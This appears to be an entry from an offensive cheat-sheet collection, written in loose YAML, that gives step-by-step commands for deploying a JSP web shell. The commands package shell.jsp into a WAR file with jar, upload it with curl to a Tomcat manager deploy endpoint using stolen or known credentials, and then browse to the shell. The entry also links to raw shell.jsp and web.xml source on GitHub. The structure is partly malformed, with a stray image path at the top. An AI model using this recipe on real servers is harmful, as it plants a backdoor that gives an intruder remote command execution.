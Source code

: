 ```yaml
---
functions:
  shell:
    - description: WAR and jsp web shell
      
---
```

code: |
        (1) File Structure:
        	── shell.jsp
			    ── WEB-INF
		    	    ── web.xml
		(2) jar -cf shell.war *
        (3) curl --upload-file shell.war http://10.10.10.194:8080/manager/text/deploy?path=/{context}&update=true -u {username}
        (4) https://{address}/{context}
resources:
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/shell.jsp
  https://raw.githubusercontent.com/MidnightSeer/scripts/master/web.xml